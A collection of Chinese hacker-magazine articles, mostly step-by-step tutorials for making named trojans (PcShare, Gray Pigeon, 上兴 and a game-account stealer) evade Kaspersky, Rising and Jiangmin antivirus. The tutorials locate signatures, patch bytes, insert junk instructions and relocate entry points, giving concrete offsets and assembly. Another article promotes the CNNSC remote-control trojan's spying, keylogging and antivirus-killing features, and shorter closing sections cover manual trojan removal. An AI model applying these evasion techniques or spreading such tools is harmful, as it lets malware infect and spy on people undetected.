卡巴斯基首先对某个可执行文件进行PE有效性检测，然后进行主特征码检测，接着检测辅特征码，当有任何一段的主辅特征码符合，那么卡巴斯基就开始报警……因此，当我们进行CCL定位时，由于你可能只替换了某个父特征码的子特征码，其它的父特征码还是会被卡巴斯基所检测到。

> 小知识  
> 我们知道，病毒有时候可以改变自己的代码，这就是变种。杀毒软件虽然不能识别新病毒，但病毒间的推演会对毒库进行更新，变种文件也就可以被杀毒软件所查杀了。我们可以这样表示，比如爱虫病毒的变种：lovegate.acg、lovegate.de、lovegate.hp。

其实卡巴斯基也利用了这种方法，当检测到不同的父特征码时，它所表示的木马名称也不相同。举个例子，我们的免杀对象PcShare中的Pcinit.exe文件，经过替换不同的父特征码后，出现了不同的名称PcClient.ik→PcClient.le→PcClient.hp等。这里，我们就是利用这个替换父特征码进行免杀的思路……

##### 实战免杀

首先准备工具：CCL2.8、OllyDbg1.1、Peditor1.7、WinHex。首先我们进行Pcinit.exe的手动检测，选择每次替换规定字节大小，字节大小设置为128字节，如图1所示。

文件区段选择处，我们什么也不填，直接替换整个文件，点击确定。使用卡巴斯基进行查杀，结果如图2所示。


看见了吗？其中有两个病毒名称和其它的不一样，分别是两个区段的PcClient.le和一个区段的PcClient.hp。这说明什么呢？说明我们至少有三段的父特征码，分别对应于PcClient.le、PcClient.hp和PcClient.ik……根据第一段的理论，我们只需要任意改变其中的一处，就能把PcClient.ik这段父特征码屏蔽掉……

##### 免杀知识

既然原理已经知道了，那么我们该怎么处理免杀呢？答案很简单，利用病毒/木马的变种检测。

图3

示，接着进行查杀，结果如图4所示。

图4

我们可以看到 PcClient.le 的子特征码已经出来了，为 19F4-19FF。接下来我们进行反汇编，如图5所示。

图5

这里是把三个 ASCII 字符进行赋值操作，我们首先修改一下代码，ASCII 代码 2E,64,72,76 分别对应字符“drv”。我们使用大小写转换，修改为“Drv”，对应于 2E,44,72,76。最后使用 WinHex 修改，保存退出。现在再用杀毒软件进行查杀，发现病毒名称已经变成了 PcClient.le。这就说明我们成功地把变种 PcClient.ik 的父特征码给修改了。

我们再对已经修改了的文件进行 128 字节的手动检测，范围为整个文件，卡巴斯基查杀结果如图6所示。

图6

是不是和上面很像呢？好了，再一次重复操作，我们任意选择一段 PcClient.hp 的子特征码，这里选择 1A80 的 80 个字节，然后进行精确定位。反汇编之后还是使用大小写替换的方法，把 2F,6C,6F,67 的“/log”替换为 2E,4C,6F,67 的“.Log”。保存修改，可以发现病毒名称已经变成了 PcClient.hp。

好了，我们又消灭了一个变种。那么有些人会问了，这样下去要到什么时候才算完呢？我们需要一直这么做下去，直到再也发现不了新病毒的出现为止。我们再次使用 128 字节的手动定位，检测后可以发现已经全部是 PcClient.hp 了。删除掉病毒文件，留下的几个文件就是最终的免杀文件。最后的 CCL 定位结果如图7所示。

图7

好了，区段 2280-2300 这 80 个字节被替换后，此文件达到了最终免杀。现在我们来对这个最后的区段作精确免杀，如图8所示。

图8

最后定位的 PcClient.hp 特征码是 7 个字节。我们反汇编，如图9所示。

图9

我们使用指令跳转法做个跳转，最后用杀毒软件查杀，发现不报警了。免杀成功！然后测试上线功能，同样正常。

##### 总结经验

免杀思路是这样的：根据卡巴斯基的病毒名称来按阶段依次突破，通过不同的名称，解决不同的特征码，依次改之。检测到主特征码→改之保存→检测到辅特征码→改之保存→再次检测到辅特征码……然后到达最后的一段辅特征码。其实说起来也很简单，关键思路是根据名称来定位。

文中所提及的 WinHex，除了编辑 16 进制文件外，还有什么用处呢？我们可以使用它的地址管理器……当我们将这两段进行精确定位后，可以使用地址管理器表达出来，如图10所示。

图10

我们可以很方便地以高亮显示某个父特征码的所有子特征码，这方便了同时修改多处父特征码的人……

再来说说卡巴斯基杀毒软件本身的设置问题……一般是选择删除危险对象。但是卡巴斯基会将它们移动到备份区……我是利用了 NTFS 的安全性来解决这个问题的。

卡巴斯基默认是将备份文件放在“%ALLUSERSPROFILE%\ApplicationData\KasperskyAnti-Virus Personal Pro\5.0\Backups”文件夹下……如图11所示。

图11

但是有一点，虽然这样设置好了，每次卡巴斯基启动后还是会重新关联文件夹的安全性……我们只需双击它就可以进行后续工作了。

相信读者只要明白原理后，再自己动手实际操作一下，很快就可以熟练应用了……我们要在攻与防的对立统一中寻求突破。

#### 黑防之鸽子定位之特色免杀

文/图 [黑防VIP]op336 火龙

在前面的文章中我们定位了黑防鸽子服务端的江民特征码，今天我们来对卡巴斯基进行定位……方法和原理我在第一次文章中已经讲过了。

今天我们使用另一个定位器 MyCCL，此定位器能直接对复合型特征码定位……我们这节课主要讲述对卡巴斯基的文件复合型特征码的定位。

我们先了解一下 MyCCL 的原理和使用方法。它的主要原理是载入程序，然后分块与恢复生成文件……程序会把有特征码的地方标注并记录。

因为分为 10 块，所以每块都比较大，这时候需要进行精确定位……关于内存复合特征码的定位原理和文件定位是相同的，手动添加即可。所以复合特征码定位器 MyCCL 的作用是进行多重特征码的定位，并实现自动化。

现在我们开始今天的实际操作。今天我们要用到的工具有：黑防鸽子服务端、MyCCL V1.1、卡巴斯基。

- 1. 使用黑防专版鸽子生成一个服务端 SERVER.EXE，大家也可以对 CSERVER.DAT 文件定位做免杀。  
  2. 打开 MyCCL 程序，如图1所示。

图1

我们点击文件按钮载入我们的鸽子服务端 SERVER.EXE，程序提示窗体中显示有关 SERVER.EXE 文件的一些信息。

| 节名称 | 起始位置 | 物理长度 |
|---|---|---|
| CODE | 00000400 | 000A1200 |
| DATA | 000A1600 | 00002C00 |
| BSS | 000A4200 | 00000000 |
| .idata | 000A4200 | 00003400 |
| .tls | 000A7600 | 00000000 |
| .rdata | 000A7600 | 00000200 |
| .reloc | 000A7800 | 0000A400 |
| .rsrc | 000B1C00 | 00008200 |

现在黑防鸽子的卡巴斯基多重复合特征码还是在 CODE 区段中，我们接下来就需要对此区段进行定位。

- 3. 点击“目录”选择我们生成的目标文件所在的硬盘空间地址，默认在桌面生成 OUTPUT 目录。  
  4. 现在我们在分块个数中填 10 个，在开始位置中填 00000400，分段长度中填 000A1200，结束位置自动计算，如图2所示。  
  5. 点击程序界面中的“生成”，程序右边出现定位结果信息提示窗。  
  6. 选择复合定位，点击生成按钮，出现如图3所示提示窗，点击 YES。

图2

图3

程序会在 OUTPUT 中生成 10 个样板文件，并出现提示窗，如图4所示。我们按照提示杀毒，再点“二次处理”，出现如图5所示提示窗。点击 YES 继续分析，又出现如图6所示提示窗。

按照它的提示，我们要对生成的样板文件杀毒后继续进行“二次处理”，直到程序不再提示其他特征码。这样我们大块的多重复合型特征码的定位结果就出来了，如图7所示。

```
特征码 物理地址/物理长度如下：
[特征1] 0009142C_000101D5
```

- 7. 在右边“填充/特征码，区间设定”窗体中就有了这次的特征码结果。右键选择复合定位此处特征码，可以得到如图8所示结果。因为此区间还是很大，我们再次粗定位，设定此次分块数为 50，点击生成，重复步骤 6。

```
特征码 物理地址/物理长度如下：
[特征] 000A0684_00000528
[特征] 000A10D4_0000052E
```

- 8. 看到这次结果特征码的范围不是很大了，我们可以精确定位特征码的位置到 8 个字节。先选择 [特征]000A0684_00000528，复合分块定位后如图9所示。重复步骤6得到 8 字节的精确特征码位置。

```
[特征] 000A0B24_00000008
[特征] 000A1304_00000008
[特征] 000A151C_00000008
[特征] 000A157C_00000008
```

- 9. 到这里我们已经定位出了黑防鸽子卡巴斯基的复合型特征码位置。再对这 4 处特征码进行验证：用 C32Asm 载入 SERVER.EXE，将特征码处用空白填充并保存，再用卡巴斯基查杀，发现已经不再报毒。

适合读者：木马爱好者，免杀爱好者

前置知识：破解基础知识

#### 实战免杀梦幻西游木马

文/图 Zero_cold

这段时间黑防的朋友们都在研究木马免杀技术。我的一个好友是网游爱好者，一天他给我传来一个梦幻西游 2006 的木马，希望我能帮他做一下免杀。

老规矩，拿到手的程序先用 PEiD 查壳，一查之下发现程序没加壳，采用 VC++6.0 编写。生成的服务端是用 ASPack 2.12 加壳。看到这里，我心里就有了胜算。虽然不是 MM 求我，但尊严还是可以在他的面前发挥一番的，事情怎么不做？

由于生成的服务端还没有运行就被瑞星杀了，这说明木马中存在文件特征码。先来修改内存特征码。将服务端脱壳后，用 CCL 开始定位该服务端的内存特征码。一般情况下，大家定位的时候都选 Code 段或 Text 段。选择 CCL 特征码的“内存特征码检测”功能，设定每隔 5 秒就生成文件，替换字节大小设置为 50。每过 5 秒点 CCL 暂停生成文件，然后打开瑞星的内存杀毒功能查杀木马。

然而结果很不幸，全部被杀。我以为自己做错了，又重新做了一遍，结果还是一样，因为服务端没有 Code 段。经过查找，我发现特征码存在于 Data 段里。操作过程和上面完全一样。这里我直接给出定位出来的结果，如图1所示。

由于这段特征码的位置比较特殊，如果在修改的过程中稍有不慎的话，就会导致程序在执行的过程中出现错误。我采用的是修改字符大小写的方法，但这并不意味着你可以随意更改字符。修改的结果既要正常运行又要躲过瑞星的内存查杀。我修改前后的结果如图2、图3所示。

```
0000A150h: 75 72 72 65 6E 74 56 65 72 73 69 6F 6E 5C 52 75 ; urrentVersion\Ru
```

图2

```
0000A150h: 75 72 72 65 6E 74 56 65 72 73 69 6F 6E 5C 72 75 ; urrentVersion\ru
```

图3

大家可以比较一下，看看有什么不同。

经过这样的修改，我们用 OD 载入后再用瑞星查杀，发现已经不报病毒了。木马运行后没有出错，进入“C:\WINDOWS\system32\ShellExt”目录发现“svchsto.exe”已经躺在里面了，此文件就是服务端运行后生成的。

躲过瑞星的内存查杀后，服务端文件还是可以被瑞星查杀。我们继续用 CCL 定位，文件特征码的定位也是相当简单的。定位过程和定位内存特征码时的方法一样。这里我采用的是直接修改程序入口地址法，只有在这种方法不成功的情况下我才会去改文件特征码。

首先将做过内存免杀的服务端用 OD 载入，并记录下入口地点，然后在程序代码下面找一段没有指令的地方，将记录的服务端入口点移到这里，然后在上面加一段花指令，如图4所示。

其中 00403839 是服务端用 OD 载入时的入口地址，全部复制到可执行文件后并保存，然后再打开偏移量转换器把 00408158 转化成文件偏移。最后用 PEditor 选择内存免杀的服务端，如图5所示。

新的入口点就是用偏移量转换器计算出的文件偏移（00008159），应用更改后，我们发现木马已经成功躲过了最新的瑞星查杀，所以也就不用再修改特征码了。

当然修改的方法并不止这些。你也可以直接去修改文件的特征码。至于如何修改就要具体问题具体分析了，如指令转换、指令跳转等等。接下来的工作就是把刚修改过的免杀服务端导入到主程序中。我们用资源编辑工具 Rescope 实现，如图6所示。

……资源项就可以了。到这里一个免杀木马就做好了。

适合读者：木马爱好者  
前置知识：破解基础知识

## VIP会员学习成果展：灰鸽子2006服务端免杀

文/图【黑防VIP】op336 火龙

前两天黑防VIP网站上看到会员们还是不会自己免杀 2006 的鸽子。其实鸽子 2006 出来这么久，网上对 2006 的免杀也有很多教程。它和鸽子 2.02 的免杀其实是一样的，只是没有 HOOK 个 DLL 文件而已。对于免杀，我们主要有加花、加壳、定位特征码再修改等几种常见手段。

## 课程内容

今天我就再给黑防VIP会员做个鸽子 2006 服务端教程。课程主要内容为鸽子 2006 服务端的免杀处理。

- 1. 加花免杀——getkey.dll 的卡巴斯基与瑞星的文件、内存（查杀结果为卡巴斯基与瑞星都杀）。
- 2. 修改 PE 免杀——maindll.dll 的卡巴斯基与瑞星的文件、内存（查杀结果为卡巴斯基与瑞星都杀）。
- 3. 定位特征码免杀——主文件 setup.exe 的卡巴斯基与瑞星的文件、内存（查杀结果为卡巴斯基杀）。

```asm
0087C53D  90      NOP
0087C53E  00      ADD BYTE PTR DS:[EAX],AL
0087C53F  00      ADD BYTE PTR DS:[EAX],AL
0087C540  00      ADD BYTE PTR DS:[EAX],AL
...
0087C556  8BEC    MOV EBP,ESP
...
0087C55D  E2DB    LOOPD SHORT ...
0087C55F  90      NOP
0087C560  90      NOP
0087C561  90      NOP
```

再使用 PEEDIT 编辑加花后的 getkey.dll，文件程序入口为 0000C556，这样我们就完成了 getkey.dll 的卡巴斯基和瑞星的内存/文件免杀了。

现在我们开始：

- 1. 用 ResScope1.94 打开灰鸽子服务端 Setup.exe，导出 MAINDLL 这个 DLL 文件，保存为 maindll.dll，如图1所示。  
- 2. 再用 ResScope1.94 打开刚才导出的 maindll.dll，导出 GETKEY.dll 文件，保存为 getkey.dll，如图2所示。  
- 3. 加花免杀 getkey.dll，我们加入这一段花指令（大家可以自由发挥）：

```asm
0087C536  0000  ADD BYTE PTR DS:[EAX],AL
0087C538  0000  ADD BYTE PTR DS:[EAX],AL
0087C53A  90    NOP
0087C53B  EBC7  JMP SHORT getkey...
```

- 4. 再用 ResScope1.94 打开导出的 maindll.dll，这次是导入加过花的 getkey.dll 到 GETKEY 中，然后点保存，如图3所示。  
- 5. 修改 PE 免杀 maindll.dll，这里我们使用一个工具 MaskPE，打开 MaskPE 加载 maindll.dll 文件，点击 make file 按钮生成 maindll1.dll。我们再次用卡巴斯基与瑞星对这个生成文件的内存、文件查杀，发现已经彻底免杀了。  
- 6. 再用 ResScope1.94 打开导出的 Setup.exe，这次是导入 maindll1.dll 到 MAINDLL 中，然后点保存。现在卡巴斯基还是查杀它。  
- 7. 我们使用 MyCCL 来定位 Setup.exe 的卡巴斯基特征码，定位结果为：  
- 8. 使用 C32Asm 载入 Setup.exe，使用通用跳转法修改……

```text
物理地址/物理长度如下：
[特征] 0000BD69_00000002
```

改 [特征] `0000BD69_00000002`，把这段代码：

```asm
0000BD5E: 6A 00            PUSH 0
0000BD60: 6A 00            PUSH 0
0000BD62: 68 1F000F00      PUSH F001F
0000BD67: A1 50E91413      MOV EAX, DWORD DS:[314E950]
```

跳转到：

```asm
0000C228: 6A 00            PUSH 0
0000C22A: 6A 00            PUSH 0
0000C22C: 68 1F000F00      PUSH F001F
0000C231: A1 50E91413      MOV EAX, DWORD DS:[314E950]
0000C236: E9 31FBFFFF      JMP 0000BD6C
0000C23B: 90               NOP
```

将原来 `0000BD67: A1 50E91413 MOV EAX, DWORD DS:[314E950]` 代码 NOP 掉，保存为 SETUP2.EXE。

这时卡巴斯基已不再报警了，最后测试一下服务端能否上线，结果是可以的。我们的修改没问题。对于免杀，建议大家通过上面介绍的 3 种方法综合运用。

蝴蝶：冰河已经离我们远去，黑洞也不再继续，所以我们能够选择的国产木马只有灰鸽子和 PcShare。但如果你已经对这些木马产生“审美疲劳”的话，那么就一起来看看国内新近推出的“CNNSC远程控制”吧。

- 适合读者：软件爱好者、木马爱好者
- 前置知识：木马的基本操作

## 兵圣玄机：CNNSC远程控制

文/图：天涯浪客

##### 配置服务端

运行客户端程序，弹出 CNNSC 的主界面，如图1所示。从图1我们可以看到 CNNSC 的操作界面和一些著名木马程序的操作界面还是有很多不同的。程序将木马的主要功能都集中到上面的工具栏中，中间部分是远程计算机的上线列表，这样可以便于用户同时对多台计算机进行管理。

配置信息设置完成后，我们来对服务端程序的格式进行选择。除了常见的 EXE 格式外，还可以使用 SCR、COM、BAT 等多种文件格式，最后点击“生成服务端”按钮就能生成相应的服务端程序，如图2所示。

首先还是来配置一个服务端程序，点击工具栏上的“配置服务端”按钮，在弹出的“服务端配置”窗口进行操作。

##### 服务端改造

点击工具栏中的“图标工具”按钮，通过它可以修改任何 EXE 文件图标，并且支持真彩色。不过 EXE 文件必须没有经过加壳处理。在“EXE 文件”中选择刚刚生成的服务端程序，然后点击“选择”按钮选择一个 EXE 程序，用户可以从“资源图标”列表中提取你喜欢的图标。然后点击“修改 EXE 图标”按钮对服务端程序进行图标修改，如图3所示。

> 小知识：CNNSC 的服务端不支持 163、263、Yeah 的域名解析，但可以对 3322 的域名进行很好的解析支持。需要注意的是，它不支持直接使用 IP 地址进行连接这种方式。

为了让服务端程序能够方便地穿越网络防火墙，服务端程序采用了线程插入技术，用户可以选择将服务端程序的进程注入到 IE 浏览器或资源管理器的进程中。

摆，我们最好为它加个壳。

##### 客户端设置

CNNSC作为一个反弹连接型的木马程序，为了让服务端程序能够及时地和客户端程序进行通信，客户端程序必须打开一个端口等待服务端程序的连接。点击菜单栏中的“上线设置”中的“监听设置”选项，在弹出的窗口设置监听端口9000，这是CNNSC默认的连接端口，暂时还不能更改。接着点击“监听端口”选项，然后从状态栏就可以看到“打开本地端口成功，等待主机上线”的提示。

##### 远程控制操作

为了测试CNNSC的远程控制能力，我将刚刚生成的服务端程序安装到局域网的其他电脑中，如图4所示。


图4

从图中我们可以看到远程计算机的相关信息，比如IP地址、用户名、系统类型、有无摄像头、服务端程序版本等等。要进行远程控制操作，用户即可以使用工具栏中的命令进行操作，也可以使用右键菜单中的控制命令进行操作，只不过右键菜单中的控制命令更加完整一些。

CNNSC的屏幕监控速度非常快，用户根本感觉不到它的任何图像延迟（蝴蝶：咳，请考虑局域网速度因素……）。点击“全屏”和“控制”选项后，我们就可以在“屏幕监控”窗口中通过用鼠标在全屏的窗口中进行全面的控制，就像在控制一台本地的计算机一样方便。通过“保存”选项，我们还可以在程序进行屏幕监控时，将图像自动保存在客户端程序所在目录中，如图5所示。


图5

“摄像头监控”和“声音监控”可谓是我们远程控制的千里眼和顺风耳，通过它我们可以监控到远程用户的一举一动，还能监听到远程计算机的所有音频信息，包括播放的歌曲、用户的语音聊天等（蝴蝶：声音监控算是比较新的一种监控方式，值得一玩）。点击“声音监控”功能，在弹出的“声音监控”窗口中设置“采样频率”和“设备”选项后，再选择“开启”选项，就可以使用监听功能了。

文件管理作为远程控制软件一个不可或缺的功能，是每个软件必备的功能之一。点击“文件管理”命令，在弹出的“文件管理”窗口中选择需要查看的磁盘，然后对所属的文件夹和文件进行选择，如图6所示。


图6

除此以外，CNNSC提供的管理功能还包括“进程管理”“服务管理”“注册表管理”等。通过“结束进程”命令，用户可以关闭杀毒软件、防火墙的进程。在“服务管理”命令中，除了常规的启动、停止、删除等管理命令外，还包括一个“安装服务”。点击按钮，程序会弹出三个输入框，用户需要依次输入新建服务的名称、描述、服务程序的路径等，如图7所示。


图7

“命令模拟”为我们提供了一个远程的CMD窗口，大家相信都用过，这里不再赘述。通过“查看共享”命令我们可以搜索到远程计算机中的共享资源，还可以将远程计算机中指定的目录映射到本地系统中。这样操作起来就更方便了。“端口转发”实际上就是一个端口映射程序，这可以让局域网中的计算机直接和外网的计算机进行数据交换，从而实现一些局域网系统无法实现的网络服务，如图8所示。


图8

最后再来看看CNNSC中一个非常特别的功能——“网络嗅探”，这个功能只是在“上兴”木马的一个版本中出现过，而在其他的木马中均未出现。点击“网络嗅探”命令，弹出一个“通信查看”窗口，选择“开启”选项后，就可以查看远程计算机当前正在进行传输的数据信息，比如协议、目的地址、源地址，以及字节等。如图9所示。


图9

“卸载服务端”命令是用于卸载安装在远程计算机中的服务端程序的，可就在弹出的“服务端控制”窗口中还隐藏了“下载执行文件”“网页浏览”“键盘记录”“Socks5代理服务”等多项功能。“Socks5代理服务”可以直接将远程计算机设置为一台Socks5服务器，也就是代理服务器，如图10所示。


图10

##### 服务端的清除

通过前面的服务端配置，我们知道CNNSC并没有要求用户进行服务端启动项的设置，这就表明服务端程序的启动项是固定的，方便用户对其进行清除。通过对注册表的分析后发现，CNNSC的服务端程序没有采用传统的注册表Run键进行启动，也没有采用系统服务以及插件的方式进行启动，而是通过一个很隐蔽的注册表键值进行启动的。

注册表的启动项为“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon”，键名为“Shell”，键值为“Explorer.exe C:\WINNT\System32\cnnsc.exe”。

要进行CNNSC服务端程序的清除，我们可以直接采用官方推出的卸载工具。运行远程控制卸载器，点击“检测”按钮可以检测系统是否安装了CNNSC。如果发现安装了服务端程序，点击“清除”按钮就可以成功将其清除。

##### 小结

到此为止，关于CNNSC木马的介绍就为大家介绍到这。从上面的介绍我们已经看到，CNNSC作为一款全新的木马程序，功能上还是非常全面的，除了常见的木马功能以外，还有一些自己的创新、自己的特点。如果用户对国产木马程序感兴趣的话，那么你就赶紧试试吧。

适合读者：免杀爱好者、木马爱好者  
前置知识：免杀工具使用基础

## VIP会员学习成果展

## 免杀上兴木马


文／图【黑防VIP】圣战☆天使

在黑防上看了那么多免杀教程，小菜我终于学有小成，做出了自己的第一个免杀木马——上兴。没什么技术含量，只是把大家的技术综合运用了一下，请大家不要丢苹果。

上兴，南域剑盟大名鼎鼎的远程控制木马，采用DLL插入型服务端，不仅有普通远控木马的功能，最新版连DDOS的功能都有了，真是杀人放火的必备工具啊！这里我们用最新版本生成的服务端来做示范，大家把自己的信息填进去就可以了，注意不要勾选“使用Upack压缩服务端”，不然会无法进行免杀的，如图1所示。

服务端采用Borland Delphi 6.0-7.0编写，因为服务端采用了DLL线程插入技术，所以我们的免杀思路是：导出服务端中的DLL文件→免杀DLL文件→导入DLL文件→免杀服务端EXE文件。现在我们用PE Explorer来加载服务端，如图2所示。


图1

PE Explorer已经自动判断出MYDLL是PE文件，那么我们把MYDLL导出为MYDLL.DLL即可。用OllyICE打开MYDLL.DLL，停在入口点003E49BC，这里我们采用“去头+花指令”的免杀方法。先NOP掉开头的前两句，然后找一片零区域，我这里的零区域开始于003E4A24，你可以在零区域里选一个喜欢的地址作为新入口点，然后补上我们刚才NOP掉的两句“push ebp”和“mov ebp,esp”，并加上花指令如图3所示。（见光盘中花指令.txt，但是建议大家不要直接套用我的花指令，因为用的人多了，杀毒软件就会注意到，花指令也就没用了，大家可以根据具体情况自己写花指令。）


接着跳转回NOP后的一句，即003E49BF，修改后如图4所示。


右键选择“复制到可执行文件→所有修改”，把修改后的文件保存为MYDLL2.DLL，然后我们用Load PE的PE编辑器把MYDLL2.DLL的原入口点000149BC改为修改后的新入口点00014A2A，现在你可以放心大胆地用卡巴、江民、瑞星之类的杀毒软件来测试一下了。结果已经全部免杀！试试用PEID查看一下，显示的居然是“不是有效的PE文件”。不过这样修改后我们并不能保证完全免杀，毕竟还有Norton这些喜欢把特征码定位在PE文件头的阴险小人，所以我们最好给MYDLL2.DLL加一层壳（如果你喜欢，多加几层也行，不过加坏了可别怪我没给你说过），我用的是NsPack，大家都很熟悉的国产猛壳，压缩率52.5%。现在我们用Dll_LoadEx来看看免杀效果。看，刚载入MYDLL2.DLL，防火墙就提示Dll_LoadEx访问网络，如图5所示。


主程序同时提示有主机上线，并顺利通过了瑞星内存，看来自DLL免杀成功了。现在我们可以把已经免杀的DLL文件导回服务端。接下来我们对服务端EXE文件进行免杀，如果你比较懒的话直接加壳就可以了，不过为了确保万一，我们来手工修改一下，还是用“去头+花指令”的方法。

> 这里需要注意一点：如果直接在服务端的零区域中修改，OllyICE会提示“在可执行文件中无法定位数据”，如图6所示。


我们需要借助工具先给服务端添加一个新的PE段。这里我用PEDIY Tools给服务端添加了一个名为Hacker的PE段，大小100字节，起始地址00027000，如图7所示。


现在用OllyICE加载服务端，先NOP掉入口点的头两句，然后用快捷键Ctrl+G来到我们添加的PE段00427000，在这里随便找一个地址作为新的入口点，进行免杀处理（与DLL文件的免杀一样，我就不啰嗦了）。修改如图8所示。

```asm
00427000  2B55...
00427001  8BEC        mov ebp,esp
00427003  83C4 F4     add esp,-0C
00427006  83C4 0C     add esp,0C
00427009  50          push eax
0042700A  58          pop eax
0042700B  90          nop
0042700C  90          nop
0042700D  E9 ...      jmp 004949B...
```

图8

保存后，修改入口点为00027000，现在再用杀毒软件测试一下，免杀完全成功了！我又用NsPack给服务端加了一道壳，现在真可谓是完美免杀木马了，而且是免费版“个人版”，测试后发现上线功能正常。

黑防不是有句名言么？在攻与防的对立统一中寻求突破。既然已经攻了，那我们来看看怎么防。因为我比较菜，只好借助一下工具，如图9所示。


看出点什么没有？是不是Shell项的Explorer后面多了些东西？结束EXPLORE.EXE的进程，再删除对应的文件即可。

蝴蝶：很多朋友机器上都安装了杀毒软件，而且某些人还是正版杀毒软件。但网络上每天都会产生很多新木马，而且各种免杀手段也令杀毒软件无可奈何。杀毒软件永远落后于病毒，所以对待一些没有公开的木马，我们需要用非常手段才可以解决。大名鼎鼎的冰刃大家都听说过吧？一起来感受一下它的锋利吧！

- 适合读者：网络爱好者、入侵爱好者、木马爱好者
- 前置知识：无

#### 冰刃杀马天敌


##### 如何手杀

凡是木马都会想办法在每次开机的时候自动启动，如果一个木马不能做到自启动，那它对我们就没有危害了，所以我们查杀木马的方法就是查看系统的启动项。能够自动启动的地方有很多，常见的有注册表启动、服务启动、注入其他进程启动、INI文件等。以下我将详细为大家说明。

点开始→运行，输入msconfig（Windows XP才有，Windows 2000下无此命令），点“启动”会看到很多自启动的项目。这里显示的是在注册表[HKLM\Software\Microsoft\Windows\CurrentVersion\Run]下的值。

在msconfig里也可以查看服务。很多人对系统服务不熟悉，不知道哪个是正常、哪个不正常。一个简单方法是先隐藏所有Microsoft服务，剩下的就是非系统自带服务，再仔细查看是否有异常项。发现有问题的服务，选择属性后“禁用”即可。新版木马常会隐藏自身服务，因此还需要借助冰刃等工具与系统服务进行对比。

> 替换系统文件启动：此方法很隐蔽，也很难发现。比如替换系统服务、替换系统驱动等。对于这类木马，可使用Windows自带系统文件检查功能，命令是`sfc`，按提示操作即可。

通常一个木马的启动方式有好几种，所以排查时需要各个位置都检查到。漏过任何一个，手杀就没有效果了。

有时候病毒启动很诡异，用到一些新的方法。对我们来说，最直接的方法是直接删除木马本身。如何找到木马本身？一般程序都有自己的进程，木马也不例外。可以先看进程，但很多木马会隐藏进程，需要你对进程熟悉，才能判断哪个异常。在冰刃界面中，如果是红色进程，通常说明它是隐藏的，往往就是木马。

如果在冰刃中看到可疑（红色）IE进程，可能是DLL型木马注入到了IE。可以右键“模块信息”，查看其加载的DLL信息，如图1所示。


图1

你也许会说，那么多DLL，我怎么知道哪个是木马？可以找一台正常机器打开IE，对比冰刃查看结果。然后结束IE进程，再删除有问题的DLL。

很多木马都有自动保护功能，发现被结束会自动再次运行。这里需要使用冰刃的功能：“文件→设置→禁止线程创建”，如图2所示。


图2

这样设置后，进程就不会再次启动了。但其他进程也不可以创建了，所以删除文件只能通过冰刃的相关路径进行文件操作功能。

如果删除后刷新列表，发现还存在，或者提示正在使用，不让删除，这就说明木马注入的不止一个进程。这样操作起来就有点麻烦了，我们可以上网去搜一下该DLL到底是什么木马，查看它的资料，找到它注入的进程，连被注入的进程一起结束掉。可是我们经常会遇到搜索不到的问题，别着急，我们还有办法。如果你的分区是NTFS的，就可以按照杀毒软件提供的路径找到该文件，然后点右键选择属性→安全，把其中所有的用户都删除。这样任何人都不可以访问该文件了，包括病毒本身，下次重启它自然也无法运行。还有一种方法是给它改名字，正在运行的文件是不能删除的，但是可以改名。命令是`Ren 源文件名 目的文件名`。改名后，下次启动就不会运行。这招能解决很多杀毒软件能查不能杀的程序。

##### 实战查杀

下面我们实战手杀一下灰鸽子和PcShare。由于灰鸽子相对容易杀点，所以我先给自己种上灰鸽子。我们直接用HijackThis查看，如图3所示。


直接点扫描，看到NT服务里有一个Netsrv Unknown owner，此处很可疑。我们只要把此项勾上，点修复选项，然后重启系统就可以了。如果我们想不重启就干掉它也可以，打开冰刃，点进程，如图4所示。


我没有开IE，这里却多了个IE，明显很有问题。我们结束它，然后点服务，找到刚才的Netsrv，如图5所示。


按照提示的`C:\WINDOWS\netservc.exe`路径找到它。因为它把自己设置成系统文件并隐藏了，所以我们要在CMD下输入`attrib -s -r -h netservc.exe`把netservc.exe的系统、隐藏、只读属性去掉。这样我们就可以看到它了，删之。到此鸽子就飞不起来了。

现在来看PcShare，它使用的是驱动级别的隐藏，隐藏效果很好，所以查杀也相对困难。拿自己机器做实验，种植上PcShare。查看进程正常，查看启动项也正常，什么也发现不了。还得用冰刃，用它查看仍然没有发现什么异常的进程、服务，驱动级别的隐藏果然很厉害。我们来看内核模块，如图6所示。


你会发现有一个以“\??\”开头的sys文件，凡是以此开头的都不是系统自带的驱动，都有可能是木马，但不一定全是，因为杀毒软件也会产生驱动。大家可以看看它存在的文件夹，如果在System32下的一般都是木马的驱动了。Windows的资源管理器是看不到的，所以我们再利用冰刃的文件查看功能找到此驱动，删除掉。重启机器再查看Winlogon的模块，就可以看到它的DLL了，通常驱动名一样，扩展名不一样。但是现在我们仍然不能删除，因为正在运行的程序是不能删除的，其他非系统核心进程我们可以先结束它，然后删除DLL。但是Winlogon进程不能强行结束。这怎么办？前面已经说过，不能删除可以改名。使用改名大法，重启机器后发现木马已经不运行了，最后直接删除改名后的DLL即可。

通过以上对冰刃的使用，我们可以把常见的木马都杀掉，但技术是不断发展的，所以我们要提高我们的安全意识，打好系统补丁，这样才能免受木马的侵害。

适合读者：黑客爱好者  
前置知识：无

## 揭秘KV的“心”——KV2006内存杀毒模块分离

文／图 fish


为了不影响系统性能，我一向不装杀毒软件，可在某些情况下又不得不用，那该如何呢？其实很简单，只要把杀毒软件的一些有用的功能单独挖出来就可以了。下文以国产杀毒软件KV2006为例进行示范。

KV在安装时有个很贴心的功能，此功能可以在不安装杀毒软件的情况下进行内存查杀病毒，如图1所示。


图1

既然是在安装程序中，那么我们就要先来看看安装程序。KV的安装程序只有一个文件，双击执行后可以看到图2所示的界面。


图2

其实图2是一个自解压过程，等此界面消失后，我们可以在临时文件夹中看到一个名为KV2006的文件夹，这里面就是解压出来的文件，如图3所示。


图3

现在退出安装程序，执行Filemon，这是一个监视文件操作的程序。将KV2006文件夹的完整路径填入“包括”文本框中，其作用仅仅是监视此文件夹及其子文件夹中的文件操作；将一些系统进程填入“排除”文本框中，其作用是排除系统对该文件夹及其子文件夹的文件操作。这样截获的记录就会少很多，分析起来也就轻松了许多。在Filemon中设置好过滤条件后就可以执行KV2006文件夹下的Setup.exe了，根据安装程序的提示进行操作，内存扫描完毕后立刻关闭安装程序，同时停止Filemon的监视。如图4所示就是截获的结果。


图4

现在我们将截获的结果保存下来，用UltraEdit32打开。打开后先到“编辑”菜单中取消自动换行功能，如图5所示。


图5

